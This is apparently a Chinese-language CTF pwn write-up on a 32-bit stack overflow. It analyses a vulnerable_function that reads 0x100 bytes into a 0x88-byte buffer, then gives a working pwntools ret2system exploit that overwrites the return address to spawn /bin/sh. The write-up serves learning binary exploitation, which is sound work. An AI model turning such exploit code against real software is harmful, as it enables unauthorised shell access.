




## 0x001 程序分析

分析main函数



main函数中调用了 **vulnerable_function** 函数和使用 **system** 函数打印了字符串。



在 **vulnerable_function** 函数中，还是使用 **system** 函数打印了字符串，并且通过 **read** 函数接收输入 0x100 个字符保存到局部变量 **buf** 中。

## 0x002 漏洞分析

这个漏洞也很明显，位于 **vulnerable_function** 函数中，由于接收输入的长度为 0x100，而局部变量 **buf** 距离 **ebp** 只有 0x88 字节，因此通过输入很容易造成栈溢出，覆盖返回地址。

## 0x003 漏洞利用

查看程序开启的保护



未开启栈溢出保护，可以通过构造ROP进行漏洞利用绕过NX保护。

首先程序中调用了 **system**，并且程序的bss段中存在字符串 **/bin/sh**。



那么就可以直接构造payload。

python3 exp如下：
```
from pwn import *

p = process("./pwn")

bin_sh_addr = 0x0804A024

# payload = 填充物 + system_plt + bin_sh_addr
payload = b"A" * 0x8C + p32(0x0804849E) + p32(bin_sh_addr)

p.sendline(payload)
p.interactive()
```